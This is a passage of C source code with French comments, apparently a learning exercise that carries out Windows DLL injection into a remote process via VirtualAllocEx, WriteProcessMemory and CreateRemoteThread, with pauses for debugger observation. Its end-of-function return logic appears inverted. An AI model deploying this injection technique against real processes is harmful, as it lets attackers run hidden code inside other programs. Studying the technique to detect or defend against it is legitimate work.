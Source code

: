 ```c
	// State (utile pour un error handling propre, ie: pas de thread leaking)
	BOOL bSTATE = TRUE;

	//Trouver l'adresse de LoadLibraryW ...
	// L'adresse stockée sera utilisé dans le "thread entry" quand
	//	le nouveau thread sera créée dans le remote process
	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL) {
		printf("-!- Erreur GetProcAddress : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	//Allocation de la mémoire ds le remote process "hProcess" (dwSizetoWrite)
	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("-!- Erreur VirtualAllocEx : %d \n", GetLastError());
		bSTATE = FALSE;
		goto _EndOfFunction;
	}
	
	//Seulement nécessaire pour observer plus facilement dans le debugger ensuite
	printf("pAddress allouée à : 0x%p (Size: %d)\n", pAddress, dwSizeToWrite);
	printf("-#- Appuyer sur Entrée pour écrire le nom de la DLL en mémoire...\n");
	getchar();

	//Données écrites : nom de la DLL, "DllName", de taille == à "dwSizeToWrite"
	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite) {
		printf("-!- Erreur WriteProcessMemory : %d \n", GetLastError());
		bSTATE = FALSE;
		goto _EndOfFunction;
	}
	printf("-i- Succès : %d bytes écrites \n", lpNumberOfBytesWritten);
	printf("-#- Appuyer sur Entrée pour exécuter le payload ... \n");
	getchar();

	// Création du remote thread
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
		printf("-!- Erreur CreateRemoteThread : %d \n", GetLastError());
		bSTATE = FALSE;
		goto _EndOfFunction;
	}

_EndOfFunction:
	if (hThread) {
		CloseHandle(hThread);
		return -1;
	}
	return 0;
}

```
